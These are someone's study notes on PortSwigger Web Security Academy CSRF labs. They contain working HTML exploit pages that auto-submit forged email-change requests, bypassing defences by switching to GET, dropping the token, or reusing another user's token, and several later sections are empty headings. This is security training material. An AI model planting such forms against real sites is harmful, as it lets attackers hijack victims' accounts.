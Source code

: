 # Cross Site Request Forgery (CSRF)

## CSRF vulnerability with no defenses

https://portswigger.net/web-security/csrf/lab-no-defenses

Overall Structure

```
Fake Client with Cookie
           |
           |
           ∨
Exploit Server with malicious code Access  
           |
           |  [Automatically]
           ∨
Main Server Access to rewrite email
```

So the goal is to set the exploit server such that when the client accesses it, email is changed

Set as body of exploit server as this (taking reference from the `/my-account` page), then test & deliver the exploit to the victim

```html
<!-- Exploit code from here ---------------------------- -->
	<p>Your username is: wiener</p>
	<p>Your email is: wiener@normal-user.net</p>
	<form class="login-form" name="change-email-form" action="https://acfb1f8b1febb025c028ce1b005d0057.web-security-academy.net/my-account/change-email" method="POST">
		<label>Email</label>
		<input required="" type="email" name="a" value="">
		<input type="hidden" name="email" value="pwned@evil-user.net" />
		<button class="button" type="submit"> Update email </button>
	</form>
	<script>
		document.forms[0].submit();
	</script>
<!-- Exploit code ends here ---------------------------- -->
```

![](Pasted%20image%2020220514120116.png)

![](Pasted%20image%2020220514120122.png)

## CSRF where token validation depends on request method


![](Pasted%20image%2020220514121536.png)

The request method is POST. so changing it to GET, injecting our custom payload and uploading it on the exploit server should work.

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac7d1fb01f6f5964c09cb9ca00190095.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="PebMbRdqcsvMdZQSxtJtRr8VRiNbqjJ8">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

![](Pasted%20image%2020220514121934.png)


```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac1c1f341f6b83b2c0fe382500b50027.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="PebMbRdqcsvMdZQSxtJtRr8VRiNbqjJ8">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token validation depends on token being present

Just remove the token
```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac1c1f341f6b83b2c0fe382500b50027.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <!--<input required="" type="hidden" name="csrf" value="">-->
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

This should work

  
## CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session

Just login, inspect element to get the value of the csrf token (from the csrf input), and put it in the exploit

![](Pasted%20image%2020220514123251.png)

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac511f561e76d771c08d133900a100ff.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="LHaigSgDqSRPYp4Q0jLhqouUMHEC2Y1Y">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie

Used the Writeup

Cookies

![](Pasted%20image%2020220514124122.png)

CSRF Token

![](Pasted%20image%2020220514124441.png)

Just need to add code to set the csrfKey cookie

## CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie

## CSRF where Referer validation depends on header being present
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present


## CSRF with broken Referer validation
https://portswigger.net/web-security/csrf/lab-referer-validation-broken